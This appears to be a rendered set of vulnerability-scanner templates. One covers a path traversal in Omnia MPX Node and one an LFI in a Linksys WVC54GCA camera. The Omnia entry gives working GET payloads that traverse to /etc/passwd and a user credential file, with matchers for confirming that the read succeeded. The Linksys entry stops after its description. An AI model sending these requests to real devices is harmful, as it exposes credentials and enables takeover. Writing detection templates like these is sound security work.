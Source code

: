 # Omnia MPX 1.5.0+r1 - Path Traversal

## Description

- A local file disclosure vulnerability in /appConfig/userDB.json of Telos Alliance Omnia MPX Node through 1.5.0+r1 allows attackers to escalate privileges to root and execute arbitrary commands.

- severity - critical
- tags - traversal,omnia,edb,cve,cve2022,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/logs/downloadMainLog?fname=../../../../../../..//etc/passwd
- {{BaseURL}}/logs/downloadMainLog?fname=../../../../../../..///config/MPXnode/www/appConfig/userDB.json

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - word**

- part - body
- words
  1. "username":
  2. "password":
  3. "mustChangePwd":
  4. "roleUser":
- condition - and

---

# Cisco Linksys WVC54GCA 1.00R22/1.00R24 - Local File Inclusion

## Description

- Cisco Linksys WVC54GCA 1.00R22/1.00R24 is susceptible to local file inclusion in adm/file.cgi because it allows remote attackers to read arbitrary files via a %2e. (encoded dot dot) or an absolute pathname in the next_file parameter.
- severity - high
- tags - cve,iot,linksys,camera,traversal,cve2009,lfi,cisco,firmware,edb

## Requests
